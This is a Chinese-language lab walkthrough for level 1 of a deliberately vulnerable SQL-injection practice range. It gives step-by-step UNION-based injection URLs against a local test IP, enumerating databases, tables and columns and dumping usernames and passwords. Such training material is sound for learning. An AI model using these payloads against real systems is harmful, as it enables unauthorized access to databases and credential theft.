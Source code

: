 # SQLI靶场
    


[![NPM](https://img.shields.io/npm/v/docsify-themeable.svg?style=flat-square)](https://www.npmjs.com/package/docsify-themeable)
[![Codacy grade](https://img.shields.io/codacy/grade/860d40719cbd4e0f91e145b87ec7c29a.svg?style=flat-square)](https://www.codacy.com/app/jhildenbiddle/docsify-themeable?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=jhildenbiddle/docsify-themeable&amp;utm_campaign=Badge_Grade)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square)](https://github.com/jhildenbiddle/docsify-themeable/blob/master/LICENSE)
[![jsDelivr](https://data.jsdelivr.com/v1/package/npm/docsify-themeable/badge)](https://www.jsdelivr.com/package/npm/docsify-themeable)
[![Tweet](https://img.shields.io/twitter/url/http/shields.io.svg?style=social)](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2Fjhildenbiddle%2Fdocsify-themeable&hashtags=css,docsify,developers,frontend)
<a class="github-button" href="https://github.com/jhildenbiddle/docsify-themeable" data-icon="octicon-star" data-show-count="true" aria-label="Star jhildenbiddle/docsify-themeable on GitHub">Star</a>

## 第一关-GET – 基于错误 – 单引号 – 字符型
    可以在代码里sql语句下添加输出语句，更方便查看sql语句的效果
      
      $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
      echo "your sql statement is ".$sql."<br>";   
**1.添加id=1正常，id=1' 报错，报错，发现报错信息多出一个单引号，后面闭合语句也是用的单引号发现页面返回正常，说明是字符型注入，单引号。**
```
http://192.168.2.135/sqli/Less-1/?id=1'
```
  <figure class="thumbnails">
    <img src="assets/img/sqli第一关.png"   >
    
</figure>

**2.在url中把单引号后面的语句注释掉。 返回正常，说明sql语句执行成功了，因为条件永远为真，所以正常返回**
```  
http://192.168.2.135/sqli/Less-1/?id=1' --+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关1.png"   >
    
</figure>

**3. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://192.168.2.135/sqli/Less-1/?id=1' order by 3--+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关2.png"   >
    
</figure>

**4.确定显位数字，发现2,3均可回显**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,3--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关3.png"   >
    
</figure>

**5.获取当前数据库名，报错注入，数据库名为：security**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关4.png"   >
    
</figure>

**65.还可以获取所有的数据库名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关5.png"   >
    
</figure>

**7.获取当前数据库security的表名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+

(security的hex编码是7365637572697479)
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关6.png"   >
    
</figure>

**8.获取表的列名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关8.png"   >
    
</figure>


**9.获取字段数据**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关7.png"   >
    
</figure>

**10.其他语句等等**

### 第一关结束！！！！




<!-- GitHub Buttons -->
<script async defer src="https://buttons.github.io/buttons.js"></script>